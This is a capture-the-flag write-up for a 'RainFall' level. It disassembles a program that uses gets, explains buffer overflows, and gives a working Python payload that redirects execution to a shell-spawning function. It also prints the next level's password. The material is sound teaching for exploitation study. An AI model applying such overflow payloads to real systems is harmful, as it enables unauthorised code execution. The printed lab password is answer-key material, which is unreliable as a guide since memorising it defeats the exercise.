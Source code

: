 ### Exploit

First, what do we see when we test the executable? On the face of it, the programme expects some user input and then leaves.
Indeed, there's not much more to it.

```
    (gdb) disas main
    Dump of assembler code for function main:
       0x08048480 <+0>:	push   ebp
       0x08048481 <+1>:	mov    ebp,esp
       0x08048483 <+3>:	and    esp,0xfffffff0
       0x08048486 <+6>:	sub    esp,0x50
       0x08048489 <+9>:	lea    eax,[esp+0x10]
       0x0804848d <+13>:	mov    DWORD PTR [esp],eax
       0x08048490 <+16>:	call   0x8048340 <gets@plt>
       0x08048495 <+21>:	leave
       0x08048496 <+22>:	ret
    End of assembler dump.
```
Thankfully, there's another function which isn't called anywhere in <main>; that is <run>. This function is interesting, as it makes a syscall and spawns a shell! However, how do we get to execute a function that's not called at all? This is when we first introduce the notion of "payload". An exploit is a piece of code written to take advantage of a particular vulnerability. A payload is a piece of code to be executed through said exploit. The exploit in our case is the well-known bufferover flow. Therefore, we want to write a payload which'll exploit this vulnerabilty. A buffer of size 76 is instantiated at the beginning of the programme. Giviing the programme a string bigger than said size will result in a segfault.

The address of <run> is `0x08048444`. 

```
    level1@RainFall:~$ python -c 'print "a"*76 + "\x44\x84\x04\x08"' > /tmp/payload
    level1@RainFall:~$ cat /tmp/payload - | ./level1
    Good... Wait what?
    cat /home/user/level2/.pass
    53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Most upcoming exploits look like this one, more or less, so let's keep this mind.
